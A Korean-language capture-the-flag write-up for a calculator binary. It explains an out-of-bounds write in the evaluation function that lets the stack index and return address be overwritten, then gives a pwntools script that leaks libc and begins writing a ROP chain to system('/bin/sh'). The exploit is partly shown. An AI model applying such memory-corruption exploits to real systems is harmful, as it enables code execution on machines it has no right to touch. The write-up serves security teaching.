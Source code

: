 ```C
void evaluation(calcs *calc, char oper)
{
    switch(oper) {
        case '+':
            calc->val[calc->idx - 2] += calc->val[calc->idx - 1];
            break;
        case '-':
            calc->val[calc->idx - 2] -= calc->val[calc->idx - 1];
            break;
        case '&':
            calc->val[calc->idx - 2] &= calc->val[calc->idx - 1];
            break;
        case '|':
            calc->val[calc->idx - 2] |= calc->val[calc->idx - 1];
            break;
        case '*':
            calc->val[calc->idx - 2] *= calc->val[calc->idx - 1];
            break;
        case '/':
            calc->val[calc->idx - 2] /= calc->val[calc->idx - 1];
            break;
        case '%':
            calc->val[calc->idx - 2] %= calc->val[calc->idx - 1];
            break;
    }
    --calc->idx;
}
```

이를 보면, 모든 연산에서 `calc->idx - 2`라는 index로 배열에 접근하는 걸 볼 수 있다. 코드를 보면 수식을 읽어온 이후 스택에 수를 추가할 때 index를 increase하기 때문에, 만약 수가 두 개 이상 추가되지 않은 상태로 evaluation이 진행되면, out of boundary 취약점으로 인해 `calc->idx`변수의 값이 바뀐다.

이를 이용해, main의 return address를 원하는 방식으로 모두 변조해줄 수 있다.

또, 우선적으로 결과를 출력해준다는 점을 통해 모든 주소들을 leak할 수 있다.

leak을 한 이후에는 원하는 대로 rop payload를 아무렇게나 retrun address에 적어주면 된다.

```python
from pwn import *

e = ELF('./prob')
# p = e.process(aslr=False)
p = remote('0', 51252)

sla = p.sendlineafter
sa = p.sendafter

go = lambda x: sla(b'> ', x)

go(b'+146')
p.recvuntil(b'+146=')
libc = int(p.recvline(), 16)
go(b'+147')
p.recvuntil(b'+147=')
libc += int(p.recvline(), 16) * 0x100000000 - 0x24083
prdi = libc + 0x00159a4f
binsh = libc + 0x1b45bd
system = libc + 0x52290

log.info('[GLIBC} %#x'%libc)

go(b'+14c&41414141&%x'%(system >> 32))
go(b'+14b&41414141&%x'%(system & 0xffffffff))
```